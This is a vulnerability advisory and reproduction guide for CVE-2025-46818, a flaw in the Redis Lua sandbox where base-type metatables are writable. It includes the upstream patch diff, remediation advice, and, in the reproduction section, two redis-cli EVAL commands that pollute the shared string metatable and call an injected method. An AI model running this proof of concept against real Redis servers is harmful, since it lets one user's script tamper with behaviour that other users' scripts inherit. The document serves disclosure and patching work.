


# CVE-2025-46818 CWE-94 Redis command injection

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.

```txt
CWE-94: Improper Control of Generation of Code ('Code Injection')

The product constructs all or part of a code segment using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the syntax or behavior of the intended code segment.
```

## Vulnerability Mechanism
The Lua interpreter embedded in Redis does not apply read-only protection to the metatable of base types (strings, numbers, booleans, nil, functions, threads, etc.) in its integrated sandbox, allowing scripts to obtain these writable metatables through `getmetatable(...)` and modify their metamethods (such as `__index`), thereby polluting shared metatables and causing other scripts/ Users can inherit and call the injected method.

## Vulnerability Location
Analyzing the `src/script_lua.c` of Redis-8.2.0: Existing protection only covers the global table and the table/metatable reachable from it. `luaSetTableProtectionRecursively()` Starting from a "table object" for iteration, but shared metatables of basic types such as strings, numbers, booleans, nil, functions, threads, and lightuserdata are not included in this object graph, so they are not set as readonly.

```c
void luaSetTableProtectionRecursively(lua_State *lua) {
    if (lua_isreadonlytable(lua, -1)) return;
    lua_enablereadonlytable(lua, -1, 1);
    /* Recurses through values and this table's metatable only. */
}
```

At the same time, `luaNewIndexAllowList()`'s allow/deny logic only restricts writing names to protected global tables and cannot prevent scripts from directly overwriting the shared string metatable via `getmetatable("")`. Modifications affect subsequent scripts within the same Lua VM; Attackers can use this to alter security-related behavior and allow other scripts to unintentionally call the Redis API. Fixed the new `luaSetTableProtectionForBasicTypes()` by pushing a sample value to each base type, obtaining its metatable and recursively setting it to read-only, while removing the `getfenv`/`setfenv` that could expand the environment maniptable.

## Remediation

Upgrade to Redis 8.2.2 or later. The official workaround is to prevent untrusted users from running Lua scripts or functions by restricting both the `EVAL` and `FUNCTION` command families with Redis ACLs.

The patch moves `getfenv`, `setfenv`, and `newproxy` from the normal allowlist to a deprecated list gated by `lua_enable_deprecated_api`, which is disabled by default. It also marks metatables for Lua basic types as read-only so a script cannot modify shared behavior that persists into another user's script.

```cpp
diff --git a/src/script_lua.c b/src/script_lua.c
index 2e8220743c3..d0b0f018b56 100644
--- a/src/script_lua.c
+++ b/src/script_lua.c
@@ -52,7 +52,6 @@ static char *redis_api_allow_list[] = {
 static char *lua_builtins_allow_list[] = {
     "xpcall",
     "tostring",
-    "getfenv",
     "setmetatable",
     "next",
     "assert",
@@ -73,15 +72,16 @@ static char *lua_builtins_allow_list[] = {
     "loadstring",
     "ipairs",
     "_VERSION",
-    "setfenv",
     "load",
     "error",
     NULL,
 };
 
-/* Lua builtins which are not documented on the Lua documentation */
-static char *lua_builtins_not_documented_allow_list[] = {
+/* Lua builtins which are deprecated for sandboxing concerns */
+static char *lua_builtins_deprecated[] = {
     "newproxy",
+    "setfenv",
+    "getfenv",
     NULL,
 };
 
@@ -103,7 +103,6 @@ static char **allow_lists[] = {
     libraries_allow_list,
     redis_api_allow_list,
     lua_builtins_allow_list,
-    lua_builtins_not_documented_allow_list,
     lua_builtins_removed_after_initialization_allow_list,
     NULL,
 };
@@ -1306,7 +1305,22 @@ static int luaNewIndexAllowList(lua_State *lua) {
             break;
         }
     }
-    if (!*allow_l) {
+
+    int allowed = (*allow_l != NULL);
+    /* If not explicitly allowed, check if it's a deprecated function. If so,
+     * allow it only if 'lua_enable_deprecated_api' config is enabled. */
+    int deprecated = 0;
+    if (!allowed) {
+        char **c = lua_builtins_deprecated;
+        for (; *c; ++c) {
+            if (strcmp(*c, variable_name) == 0) {
+                deprecated = 1;
+                allowed = server.lua_enable_deprecated_api ? 1 : 0;
+                break;
+            }
+        }
+    }
+    if (!allowed) {
         /* Search the value on the back list, if its there we know that it was removed
          * on purpose and there is no need to print a warning. */
         char **c = deny_list;
@@ -1315,7 +1329,7 @@ static int luaNewIndexAllowList(lua_State *lua) {
                 break;
             }
         }
-        if (!*c) {
+        if (!*c && !deprecated) {
             serverLog(LL_WARNING, "A key '%s' was added to Lua globals which is not on the globals allow list nor listed on the deny list.", variable_name);
         }
     } else {
@@ -1367,6 +1381,37 @@ void luaSetTableProtectionRecursively(lua_State *lua) {
     }
 }
 
+/* Set the readonly flag on the metatable of basic types (string, nil etc.) */
+void luaSetTableProtectionForBasicTypes(lua_State *lua) {
+    static const int types[] = {
+        LUA_TSTRING,
+        LUA_TNUMBER,
+        LUA_TBOOLEAN,
+        LUA_TNIL,
+        LUA_TFUNCTION,
+        LUA_TTHREAD,
+        LUA_TLIGHTUSERDATA
+    };
+
+    for (size_t i = 0; i < sizeof(types) / sizeof(types[0]); i++) {
+        /* Push a dummy value of the type to get its metatable */
+        switch (types[i]) {
+            case LUA_TSTRING: lua_pushstring(lua, ""); break;
+            case LUA_TNUMBER: lua_pushnumber(lua, 0); break;
+            case LUA_TBOOLEAN: lua_pushboolean(lua, 0); break;
+            case LUA_TNIL: lua_pushnil(lua); break;
+            case LUA_TFUNCTION: lua_pushcfunction(lua, NULL); break;
+            case LUA_TTHREAD: lua_newthread(lua); break;
+            case LUA_TLIGHTUSERDATA: lua_pushlightuserdata(lua, (void*)lua); break;
+        }
+        if (lua_getmetatable(lua, -1)) {
+            luaSetTableProtectionRecursively(lua);
+            lua_pop(lua, 1); /* pop metatable */
+        }
+        lua_pop(lua, 1); /* pop dummy value */
+    }
+}
+
 void luaRegisterVersion(lua_State* lua) {
     lua_pushstring(lua,"REDIS_VERSION_NUM");
     lua_pushnumber(lua,REDIS_VERSION_NUM);
```

## Affected Versions

- Redis releases with Lua scripting before 8.2.2

## Environment Setup
Start the Redis 8.2.0 environment. The inline commands below reproduce CVE-2025-46818. The bundled file named `CVE-2025-46819-PoC.lua` is for the separate out-of-bounds-read issue and must not be used as evidence for this CVE.

```txt
NIST:NVD   Base Score:7.3 HIGH   Vector:CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

CNA:GitHub,Inc.   Base Score:6.0 MEDIUM   Vector:  CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N
```

```txt
cpe:2.3:a:redis:redis:8.2.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
   docker exec -it redis-8.2.0 bash
   ```

2. Try modifying the shared metatable with a different string type, injecting a method named `escalate` into all strings (which is actually a function returned via `__index`). When someone accesses `('anystring').escalate`, `__index` returns a function; This returned function executes `redis.call('INFO','server')` internally, which means it calls Redis's `INFO server` command and returns the result.

```bash
   redis-cli EVAL "local mt = getmetatable(''); mt.__index = function(_,k) if k=='escalate' then return function() return redis.call('INFO','server') end end end; return 'patched'" 0
   ```

3. Trigger and execute the `escalate` method you just injected into the string metatable, successfully call `INFO server`, and return its text.

```bash
   redis-cli EVAL "return ('x').escalate()" 0
   ```



## PoC Analysis
The inline reproduction changes the shared string metatable and then accesses a synthetic method on another string. Successful execution of `INFO server` shows that a script can persist behavior through a base-type metatable shared across Lua executions. This is the CVE-2025-46818 sandbox-integrity issue; the bundled `CVE-2025-46819-PoC.lua` file targets the separate parser out-of-bounds-read issue and must not be used as evidence for this CVE.
## References
[NVD - CVE-2025-46818](https://nvd.nist.gov/vuln/detail/CVE-2025-46818)

[Redis security advisory GHSA-qrv7-wcrx-q5jp](https://github.com/redis/redis/security/advisories/GHSA-qrv7-wcrx-q5jp)

[Upstream fix](https://github.com/redis/redis/commit/45eac0262028c771b6f5307372814b75f49f7a9e)

[Redis 8.2.2 release](https://github.com/redis/redis/releases/tag/8.2.2)
